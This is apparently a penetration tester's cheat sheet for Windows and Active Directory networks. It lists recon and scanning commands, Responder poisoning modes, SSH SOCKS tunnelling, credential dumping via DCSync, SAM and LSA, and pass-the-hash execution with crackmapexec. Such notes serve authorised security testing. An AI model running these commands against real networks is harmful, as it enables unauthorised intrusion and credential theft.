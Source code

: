 # Network Information

## Passive

`arp -a`

`ip a`

`ifconfig / ipconfig`

`tcpdump -i eth0`

`netdiscover`

## Scanning

`nbtscan 192.168.1.1/24`

`nbtscan-unixwiz 192.168.1.1/24`

`nmap -sSV --open -iL ips.txt -oA output`

`sudo nmap --script broadcast-dhcp-discover`

`ping 255.255.255.255`

`masscan`

## Recon

`enum4linux -a <ip>`

`smbmap -H <ip>`

`crackmapexec smb <ip>`

`nxc smb <ip>`

Get IP and hostname

## Responder

### Analyze Mode
`responder -I eth0 -A`

`responder -I eth0 -wFP`

### Force Basic Auth
`responder -I eth0 -wbFP`

### DHCP
`responder -I eth0 -wdF`


# SSH Tunneling

### Socks proxy
`ssh -D 8080 root@<ip>`

Set Firefox network settings to use socks5 proxy 127.0.0.1 8080, must remove the HTTP proxy if present

# Dumping

## DCSYNC

`impacket-secretsdump DOMAIN/user:password@IP -history -outputfile output`

Gets all password history too, useful for identifying patterns

`crackmapexec smb <ip> -u user -p password --ntds`

## Other

`crackmapexec smb <ip> -u user -p password --sam`

Local SAM passwords, NTLM

`crackmapexec smb <ip> -u user -p password --lsa`

Looks for LSASS secrets, includes tokens and plaintext passwords stored in memory.

# Bloodhound

Bloodhound collector

# crackmapexec

`crackmapexec smb <ip> -u user -p password -x 'whoami'`

-X for PowerShell, gets blocked by most systems

`crackmapexec smb <ip> -u user -H hash -x 'whoami'`

Pass the hash. This attack only works with NTLM hashes, not net hashes.

**Protocols**: {smb,rdp,winrm,ssh,ldap,mssql,ftp}

* **-u**: username
* **-p**: text password
* **--local-auth**: local auth, not domain auth
* **-x**: command execution
* **-X**: powershell command execution
  * Works better with winrm
* **-d**: domain

# smbmap

* **-H**: host
* **--host-file**: hosts file
* **-u**: username
* **-p**: text password or NT:LM hash
* **-d**: domain


# Windows Hashes

## NTLM
Local user hash, can be relayed to hosts with SMB signing disabled.

`Admin:500:aad3c435b514a4eeaad3b935b51304fe:c46b9e588fa0d112de6f59fd6d58eae3:::`

Name:RID (relative identifier):LM hash:NT hash

## RID

* **500**: Administrator
* **501**: Guest
